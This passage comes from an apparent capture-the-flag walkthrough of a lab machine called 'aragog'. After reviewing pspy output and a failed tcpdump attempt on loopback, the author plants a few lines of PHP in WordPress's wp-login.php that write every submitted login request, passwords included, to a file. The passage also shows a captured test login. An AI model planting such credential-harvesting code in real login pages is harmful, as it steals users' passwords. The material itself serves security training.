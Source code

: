 Two interesting bits from the output of pspy:
1. The group of processes that starts every five minutes gives a pretty good idea of what happens when `/root/restore.sh` is called, which seems to be reverting the `dev_wiki` site.
2. `wp-login.py` called by cliff (user UID=1001) is certainly interesting and worth further investigation.

#### Capturing Credentials

##### Failed - tcpdump

The names of the recurring script is `wp-login.py`, which suggests it logs into the site. Let’s try to capture that with `tcpdump`, and get the creds:

```

florian@aragog:/dev/shm$ tcpdump -D
1.ens33 [Up, Running]
2.any (Pseudo-device that captures on all interfaces) [Up, Running]
3.lo [Up, Running, Loopback]
4.nflog (Linux netfilter log (NFLOG) interface)
5.nfqueue (Linux netfilter queue (NFQUEUE) interface)
6.usbmon1 (USB bus number 1)
7.usbmon2 (USB bus number 2)
florian@aragog:/dev/shm$ tcpdump -i 3
tcpdump: lo: You don't have permission to capture on that device
(socket: Operation not permitted)

```

Unfortunately, we don’t have permissions to do it.

##### Modify wp-login.php

Since the login is a post to `wp-login.php`, I will modify that page so that it dumps any credentials submitted to it to file, by adding the lines under `<?php`:

```

<?php
$rrr = print_r($_REQUEST, true);
$fff = fopen("/dev/shm/df", "a");
fwrite($fff, $rrr);
fclose($fff);

```

Then, I can test by trying to log in, and seeing my response:

```

florian@aragog:/dev/shm$ cat df
Array
(
    [log] => administrator
    [pwd] => sdf
    [wp-submit] => Log In
    [redirect_to] => http://aragog/dev_wiki/wp-admin/
    [testcookie] => 1
)

```
